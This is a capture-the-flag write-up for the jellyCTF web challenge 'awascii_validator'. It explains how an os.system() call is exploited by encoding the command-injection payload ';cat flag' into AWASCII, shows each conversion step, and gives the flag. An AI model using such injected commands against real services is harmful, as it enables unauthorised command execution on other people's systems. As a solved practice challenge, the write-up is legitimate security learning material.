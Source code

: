 # awascii_validator

## Difficulty

Medium

## Points Earned

822

## Description

> Learning a new language is hard... maybe this could help with practice
> 
> 10 point hint: Where to start looking
> 
> Author: Sheepiroo
> 
> https://awascii-validator.jellyc.tf/

![awascii_validator input](./images/awascii_validator_input.png "awascii_validator input")

## Solution

I thought about doing a shell injection attack for this one just like [awafy_me](./awafy_me.md) but the application protects against this:

![awascii_validator invalid input](./images/awascii_validator_invalid.png "awascii_validator invalid input")

I unlocked the hint for this one but it didn't tell me anything i didn't already know:

### Hint

> `os.system()` in awafier_decoder.py

Then I got the wild idea to encode `;cat flag.txt` into AWASCII (see page 5 of the [AWA5.0 spec](https://github.com/TempTempai/AWA5.0/blob/6fe3b2ef290a3df9c94822634c4ceb6c872cd2fd/AWA5.0%20Specs.pdf)). I did this manually but you could write a script to do this for you (and I ended up doing this later for [rev/lost_in_translation](../rev/lost_in_translation.md)).

```md
# plaintext
;cat flag

# ASCII code for each character
62 29 02 31 52 39 16 02 40

# in 6-bit binary
111110 011101 000010 011111 110100 100111 010000 000010 101000

# converted to AWASCII
wa wa wa wa wa awa
awa wa wa wa awa wa
awa awa awa awa wa awa
awa wa wa wa wa wa
wa wa awa wa awa awa
wa awa awa wa wa wa
awa wa awa awa awa awa
awa awa awa awa wa awa
wa awa wa awa awa awa

# concatenated with starting "awa"
awawawawawawa awa awawawawa awawa awa awa awa awawa awa awawawawawawawawa awawa awa awawa awa awawawawa awawa awa awa awa awa awa awa awa awawa awawa awawa awa awa awa
```

![awascii_validator solution](./images/awascii_validator_sol.png "awascii_validator solution")

## Flag

`jellyCTF{m4st3rs_1n_awat1sm}`